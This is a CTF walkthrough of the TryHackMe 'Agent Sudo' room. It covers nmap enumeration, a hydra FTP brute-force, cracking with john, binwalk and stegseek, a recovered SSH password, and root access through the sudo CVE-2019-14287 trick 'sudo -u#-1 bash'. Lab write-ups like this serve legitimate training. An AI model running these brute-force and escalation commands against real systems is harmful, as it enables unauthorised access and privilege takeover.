 ```yaml
---

title: Walkthrough - Agent Sudo
published: true
---
```


You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

![0xskar](/assets/agent-sudo01.png)

Enumerate/Exploit/Brute-Force/Hash-Cracking

* * *

## Enumerate

##   How many open ports?

- ``sudo nmap -sS -p- -T4 10.10.97.21 -vvv``
- ``sudo nmap -sC -sV -O -p21,22,80 10.10.97.21``

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

##   How you redirect yourself to a secret page?

- Changing the User-Agent header to C will let us see ``http://10.10.97.21/agent_C_attention.php`` where we get some more hints

> Attention chris,

> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

> From,
> Agent R 

##   What is the agent name?

- Chris

* * * 

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

##   FTP password

- ``hydra -l chris -P /usr/share/seclists/Passwords/rockyou.txt 10.10.97.21 ftp``
- ``mget *.*``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Agent-Sudo]
└─$ cat To_agentJ.txt                                                                                  
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- ``binwalk -e cutie.png``
- ``unzip cutie.png``

##   Zip file password

- ``ssh2john 8702.zip > 8702.hash``
- ``john 8702.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

##   steg password

- steg is hiddin inside the other image
- ``stegseek cute-alien.jpg /usr/share/seclists/passwords/rockyou.txt``

```shell
cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

##   Who is the other agent (in full name)?

- james  

##   SSH password

- hackerrules!

* * * 

## Hash cracking and brute-force

##   What is the user flag?

![0xskar](/assets/agent-sudo02.png)

##   What is the incident of the photo called?

- ``scp james@10.10.53.61:/home/james/Alien_autospy.jpg .``
- google reverse image search > images > upload an image
- foxnews
- Roswell alien autopsy

* * * 

## Privilege Escalation

- sudo -l gives us ``(ALL, !root) /bin/bash``
- linpeas give us 
- sudo -V give us 1.8.21p2
- [https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)
- ``sudo -u#-1 bash``

* * * 